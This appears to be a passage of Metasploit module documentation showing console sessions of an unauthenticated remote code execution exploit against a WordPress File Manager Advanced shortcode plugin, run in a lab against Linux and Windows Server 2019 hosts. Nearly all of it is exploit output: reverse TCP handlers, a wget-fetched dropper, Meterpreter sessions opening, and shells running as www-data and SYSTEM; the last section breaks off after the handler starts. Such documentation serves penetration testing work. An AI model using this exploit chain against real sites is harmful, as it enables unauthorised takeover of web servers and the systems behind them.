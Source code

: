 ```
```
### Kali Linux Server Linux Dropper -  linux/aarch64/meterpreter_reverse_tcp
```
msf6 exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. fmakey successfully retrieved: 5a669fda54
[*] Executing Linux Dropper for linux/aarch64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.10:1981/manX3C
[*] Client 192.168.201.10 (Wget/1.21.3) requested /manX3C
[*] Sending payload to 192.168.201.10 (Wget/1.21.3)
[+] Deleted nypafHKuf.php
[*] Meterpreter session 6 opened (192.168.201.10:4444 -> 192.168.201.10:38108) at 2023-06-28 15:36:11 +0000
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.10
OS           : Debian  (Linux 5.15.44-Re4son-v8l+)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```
### Windows Server 2019 Windows Command - cmd/windows/powershell/x64/meterpreter/reverse_tcp
```
msf6 exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. fmakey successfully retrieved: 2a1a319c46
[*] Executing Windows Command for cmd/windows/powershell/x64/meterpreter/reverse_tcp
[*] Sending stage (200774 bytes) to 192.168.201.55
[+] Deleted HAJSKquhaDT.php
[*] Meterpreter session 2 opened (192.168.201.10:4444 -> 192.168.201.55:50464) at 2023-06-28 14:21:39 +0000

meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
### Windows Server 2019 Windows Dropper - windows/x64/meterpreter/reverse_tcp
```
msf6 exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
```